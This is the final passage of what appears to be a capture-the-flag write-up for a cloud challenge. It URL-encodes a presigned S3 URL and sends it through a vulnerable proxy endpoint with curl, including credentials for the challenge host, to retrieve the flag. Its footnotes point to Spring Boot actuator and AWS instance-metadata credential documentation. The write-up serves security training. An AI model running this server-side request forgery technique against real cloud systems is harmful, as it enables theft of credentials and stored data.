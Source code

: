 Therefore we need to URL encode it. 

```bash
ENCODED=$(jq -sRr @uri <<< "<PRESIGNED_URL>") 
```
Then we append it to the end 
```bash
curl "https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=$ENCODED"
# The flag is: WIZ_CTF_xyz 
```

[^1]: [Spring: Spring Boot](https://docs.spring.io/spring-boot/index.html)
[^2]: [Spring: Health (health)](https://docs.spring.io/spring-boot/api/rest/actuator/health.html#page-title)
[^3]: [Spring: Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html#page-title)
[^4]: [Spring: Mappings (mappings)](https://docs.spring.io/spring-boot/api/rest/actuator/mappings.html#page-title)
[^5]: [AWS: Use the Instance metadata Service to access instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html#instance-metadata-retrieval-examples-imdsv1)
[^6]: [AWS: Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html)
[^7]: [AWS: Troubleshoot access denied (403 Forbidden) errors in Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/troubleshoot-403-errors.html)